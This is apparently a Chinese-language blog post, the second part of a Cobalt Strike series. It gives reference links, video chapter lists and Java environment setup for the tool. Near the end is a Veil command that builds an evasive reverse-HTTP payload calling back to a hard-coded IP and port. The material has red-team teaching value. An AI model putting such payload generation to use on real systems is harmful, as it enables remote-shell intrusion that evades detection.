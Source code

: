 ```yaml
---
title: Cobalt Strike （二）
categories:
- tools
tags:
- tools
---
```

 Cobalt Strike （二）

参考资料：
- [youtube官方视频](https://www.youtube.com/watch?v=5gwEMocFkc0&list=PL9HO6M_MU2nfQ4kHSCzAQMqxQxH47d1no&index=2)
- [渗透利器Cobalt Strike - 第1篇 功能及使用](https://xz.aliyun.com/t/3975#toc-5)
- [SMB Beacon Setup and Use](https://www.youtube.com/watch?v=J3BEeIx6Xzk)
- [Cobalt Strike 4.0 官方教程 —— 第一章：操作](http://blog.leanote.com/post/snowming/62ec1132a2c9)
- [外部监听器与session转发](https://www.youtube.com/watch?v=4xnBn5ZVkKE&feature=youtu.be)

我录制了关于 Cobalt Strike的使用视频，请移步观看：
- [1. Cobalt Strike介绍以及安装](https://www.acfun.cn/v/ac13359342)

- [2. Cobalt Strike客户端用户面板](https://www.acfun.cn/v/ac13368508)

```
视频内容目录
1.  Cobalt Strike介绍以及安装
	系统要求
	试用版和完整版的区别
	更新cs产品密钥
	cs服务端
	cs客户端
	cs脚本
2. Cobalt Strike客户端用户面板
	工具栏
	session可视化: target栏，session栏，pivot可视化
	tab按钮
	cs快捷键栏目
	控制面板consoles
```
## oracle官网下载java环境

oracle java se development kit 8u191

[https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html](https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html)

## linux安装cs要求的java版本

vi ~/.bashrc

```linux配置java环境
#JAVA
export JAVA_HOME=/root/Desktop/jdk1.8.0_191
export JRE_HOME=$JAVA_HOME/jre
export PATH=$JAVA_HOME/bin:$JRE_HOME/bin:$PATH
export CLASSPATH=$JAVA_HOME/lib:$JRE_HOME/lib:.
```
source ~/.bashrc

## 生成payload
```
veil  -t Evasion --ordnance-payload rev_http -p 41 --ip 3.12.45.22 --port 7788 -o chris
```
payload x86 & x64 
![1](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/03-06-02/1.PNG)


